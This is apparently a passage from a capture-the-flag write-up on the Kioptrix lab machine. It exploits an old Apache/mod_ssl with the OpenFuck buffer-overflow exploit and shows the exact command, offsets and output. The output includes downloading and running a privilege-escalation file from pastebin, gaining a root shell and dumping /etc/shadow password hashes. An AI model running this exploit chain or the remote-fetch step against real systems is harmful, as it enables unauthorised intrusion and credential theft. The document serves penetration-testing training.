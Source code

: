 
**Our First step is to make research on this particular version and see if there are vulnerabilities and exploits**

Going to google and searching this way gives us a Remote Buffer overflow attack and target is vulnerable to **OpenFuck**:

![](https://i.imgur.com/tpg9NNp.png)

We can also confirm these by using **searchsploit**;

![](https://i.imgur.com/sKAQcHW.png)

---

## Exploitation

**We will be using the GitHub exploit, seems cool and updated, Naturally, if you see a github exploit, try to try it out first before choosing another**

- We can access the GitHub exploit from the first link after our Google search; https://github.com/heltonWernik/OpenLuck
- Follow the download instructions and let get to the exploitation stage
- here is the syntax for running the command:

```sh
┌──(sec-fortress㉿kali)-[~/kioptrix/OpenFuck]                                                 
└─$ ./bankai                                                                                  

*******************************************************************                           
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *                           
*******************************************************************                           
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *                           
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

: Usage: ./bankai target box [port] [-c N]                                                    

  target - supported box eg: 0x00                                                             
  box - hostname or IP address                                                                
  port - port for ssl connection                                                              
  -c open N connections. (use range 40-50 if u dont know)

  Supported OffSet:                                                                           
        0x00 - Caldera OpenLinux (apache-1.3.26)                                              
        0x01 - Cobalt Sun 6.0 (apache-1.3.12)                                                 
        0x02 - Cobalt Sun 6.0 (apache-1.3.20)                                                 
        0x03 - Cobalt Sun x (apache-1.3.26)                                                   
        0x04 - Cobalt Sun x Fixed2 (apache-1.3.26)                                            
        0x05 - Conectiva 4 (apache-1.3.6)                                                     
        0x06 - Conectiva 4.1 (apache-1.3.9)                                                   
        0x07 - Conectiva 6 (apache-1.3.14)                                                    
        0x08 - Conectiva 7 (apache-1.3.12)                                                    
        0x09 - Conectiva 7 (apache-1.3.19)                                                    
        0x0a - Conectiva 7/8 (apache-1.3.26)                                                  
        0x0b - Conectiva 8 (apache-1.3.22)                                                    
        0x0c - Debian GNU Linux 2.2 Potato (apache_1.3.9-14.1)                                
        0x0d - Debian GNU Linux (apache_1.3.19-1)                                             
        0x0e - Debian GNU Linux (apache_1.3.22-2)                                             
        0x0f - Debian GNU Linux (apache-1.3.22-2.1)                                           
        0x10 - Debian GNU Linux (apache-1.3.22-5)                                             
        0x11 - Debian GNU Linux (apache_1.3.23-1)                                             
        0x12 - Debian GNU Linux (apache_1.3.24-2.1)                                           
        0x13 - Debian Linux GNU Linux 2 (apache_1.3.24-2.1)                                   
        0x14 - Debian GNU Linux (apache_1.3.24-3)                                             
        0x15 - Debian GNU Linux (apache-1.3.26-1)                     
        0x16 - Debian GNU Linux 3.0 Woody (apache-1.3.26-1)

		.....
```

- Very good, so we can now do `./bankai 0x6b 172.16.216.130 -c 50`

***Note:**

- You don't need to specify the port for ssl connection since nmap doesn't return one
- Also make sure that target(0x00) is not mixed with box(172.16.216.130)
- Irrespective of choosing the right target, make sure your offset is set correctly
	- In our case it is **0x6b - Red Hat Linux 7.2 (Apache-1.3.20-16)2** because nmap told us so(Apache/1.3.20), also make sure to remember setting the target to `0x6b` so you wont get errors

- Once we are ready, run the exploit and we should be fine if target == vulnerable

```sh
┌──(sec-fortress㉿kali)-[~/kioptrix/OpenFuck]
└─$ ./bankai 0x6b 172.16.216.130 -c 50

*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Connection... 50 of 50
Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f81c8
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$ 
race-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; m/raw/C7v25Xr9 -O pt 
--13:53:30--  https://pastebin.com/raw/C7v25Xr9
           => `ptrace-kmod.c'
Connecting to pastebin.com:443... connected!
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/plain]

    0K ...                                                    @   1.28 MB/s

13:53:30 (982.91 KB/s) - `ptrace-kmod.c' saved [4026]

ptrace-kmod.c:183:1: warning: no newline at end of file
/usr/bin/ld: cannot open output file p: Permission denied
collect2: ld returned 1 exit status
ls
p
whoami
root
sudo -l
User root may run the following commands on this host:
    (ALL) ALL
cat /etc/shadow
root:$1$XROmcfDX$tF93GqnLHOJeGRHpaNyIs0:14513:0:99999:7:::
bin:*:14513:0:99999:7:::
daemon:*:14513:0:99999:7:::
adm:*:14513:0:99999:7:::
lp:*:14513:0:99999:7:::
sync:*:14513:0:99999:7:::
shutdown:*:14513:0:99999:7:::
halt:*:14513:0:99999:7:::
mail:*:14513:0:99999:7:::
news:*:14513:0:99999:7:::
uucp:*:14513:0:99999:7:::
operator:*:14513:0:99999:7:::
games:*:14513:0:99999:7:::
gopher:*:14513:0:99999:7:::
ftp:*:14513:0:99999:7:::
nobody:*:14513:0:99999:7:::
mailnull:!!:14513:0:99999:7:::
rpm:!!:14513:0:99999:7:::
xfs:!!:14513:0:99999:7:::
rpc:!!:14513:0:99999:7:::
rpcuser:!!:14513:0:99999:7:::
nfsnobody:!!:14513:0:99999:7:::
nscd:!!:14513:0:99999:7:::
ident:!!:14513:0:99999:7:::
radvd:!!:14513:0:99999:7:::
postgres:!!:14513:0:99999:7:::
apache:!!:14513:0:99999:7:::
squid:!!:14513:0:99999:7:::
pcap:!!:14513:0:99999:7:::
john:$1$zL4.MR4t$26N4YpTGceBO0gTX6TAky1:14513:0:99999:7:::
harold:$1$Xx6dZdOd$IMOGACl3r757dv17LZ9010:14513:0:99999:7:::
```

- Therefore we can now see our exploit was executed, thereby giving us shell as **root**, sweet🥹, Not just that we have 3 active users on this system which are John, Harold and Root🚫